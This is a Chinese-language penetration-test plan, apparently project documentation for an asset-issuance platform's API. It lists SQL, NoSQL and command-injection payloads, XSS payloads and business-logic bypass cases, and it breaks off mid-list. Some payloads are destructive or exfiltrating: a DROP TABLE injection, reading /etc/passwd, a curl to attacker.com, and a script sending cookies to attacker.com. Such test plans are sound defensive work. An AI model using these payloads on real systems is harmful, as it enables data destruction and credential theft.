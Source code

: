 #### 1.1 注入攻击测试
```yaml
SQL注入测试:
  目标: API参数、搜索功能、登录表单
  载荷: 
    - "' OR '1'='1"
    - "'; DROP TABLE users; --"
    - "UNION SELECT * FROM sensitive_table"
  验证: 错误信息泄露、数据提取、权限绕过

NoSQL注入测试:
  目标: MongoDB查询参数
  载荷:
    - {"$ne": null}
    - {"$gt": ""}
    - {"$where": "sleep(5000)"}

命令注入测试:
  目标: 文件上传、导出功能
  载荷:
    - "; cat /etc/passwd"
    - "| whoami"
    - "&& curl attacker.com"
```

#### 1.2 跨站脚本(XSS)测试
```javascript
// 反射型XSS测试
const reflectedXSSPayloads = [
  '<script>alert("XSS")</script>',
  '<img src=x onerror=alert("XSS")>',
  'javascript:alert("XSS")',
  '<svg onload=alert("XSS")>'
];

// 存储型XSS测试
const storedXSSPayloads = [
  '<script>document.location="http://attacker.com/steal?cookie="+document.cookie</script>',
  '<iframe src="javascript:alert(`XSS`)"></iframe>',
  '<details ontoggle=alert("XSS")>'
];

// DOM-based XSS测试
const domXSSPayloads = [
  '#<script>alert("XSS")</script>',
  '#<img src=x onerror=alert("XSS")>',
  'javascript:alert("XSS")'
];
```

#### 1.3 业务逻辑漏洞测试
```javascript
// 业务流程绕过测试
const businessLogicTests = {
  // 资产发行流程绕过
  assetIssuanceBypass: {
    target: '/api/assets/create',
    tests: [
      '跳过KYC验证直接发行',
      '修改资产价值参数',
      '绕过审批流程',
      '重复提交相同资产'
    ]
  },
```